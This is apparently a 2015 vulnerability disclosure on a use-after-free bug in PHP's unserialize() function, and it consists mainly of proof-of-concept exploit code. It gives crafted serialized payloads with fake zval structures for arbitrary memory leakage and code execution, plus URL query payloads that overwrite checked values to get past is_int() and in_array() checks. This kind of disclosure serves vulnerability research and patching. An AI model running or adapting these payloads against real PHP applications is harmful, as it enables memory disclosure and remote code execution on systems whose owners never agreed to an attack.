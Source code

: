 ### About PHP's unserialize() Function Use-After-Free Vulnerability
> Taoguang Chen <github.com/chtg> - 2015.1.24
 
i. Leak Arbitrary Memory
-------------------

##### Overwrite an fake string ZVAL POC:
``` php
<?php

fake_zval();

$data = 'a:2:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:1;O:8:"stdClass":6:{i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";R:4;}}';

$x = unserialize($data);
$y = serialize($x);
var_dump($y);

function fake_zval()
{
	global $zval;

	$addr = 0x100000000;

	$zval = ptr2str($addr);           
	$zval .= ptr2str(0x400);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x06";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```
	
ii. Execute Arbitrary Code
-------------------
 
### Overwrite an fake object ZVAL PoC:
``` php
<?php

fake_zval();

$data = 'a:7:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;i:4;s:2:"AA";i:5;s:'.strlen($zval).':"'.$zval.'";i:6;s:'.strlen($zval).':"'.$zval.'";s:3:"ccc";O:8:"stdClass":2:{s:3:"ddd";a:2:{i:0;R:4;i:1;i:2;}s:3:"ddd";i:3;}}';

$x = unserialize($data);
var_dump($x);

function fake_zval()
{
	global $zval;

	$addr = 0x41414141;

	$zval = ptr2str($addr);
	$zval .= ptr2str(0x11223344);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x05";      
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}
```

iii. Bypass Syntax Logical
========

### Code sample 1:
``` php
	$data = unserialize($_GET['data']);
 
	if (is_int($data['ccc'])) {
		$ddd = 'ddd';
		$eee = 'eee';
		$fff = 'fff'.$_GET['fff'];
		$ggg = 'ggg';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
 
Overwrite $data['ccc'] and bypass in_int()
 
PoC:
``` php
	foo.php?data=a:3:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;i:1;i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;s:3:"ccc";R:5;}&fff=ryat
	// Result: string(7) "fffryat"
```

Code sample 2:
``` php
	<?php
 
	$data = unserialize($_GET['data']);
 
	if (is_string($data['ccc']) && in_array($data['ccc'], array('ccc'))) {
		$ddd = 'ddd'.$_GET['ddd'];
		$eee = 'eee';
		var_dump($data['ccc']);
	} else {
		echo 'fuck';
	}
```
	
Overwrite $data['ccc'] and bypass in_array()
 
PoC:
 
	foo.php?data=a:4:{i:0;O:8:"stdClass":2:{s:3:"aaa";a:2:{i:0;s:1:"A";i:1;i:2;}s:3:"aaa";i:3;}i:2;i:4;i:3;i:5;s:3:"ccc";R:4;}&ddd=ryat
	// Result: string(7) "dddryat"
 
iv. Others?
========
 
v. Reference
========
https://bugs.php.net/bug.php?id=68594
 
EOF
========
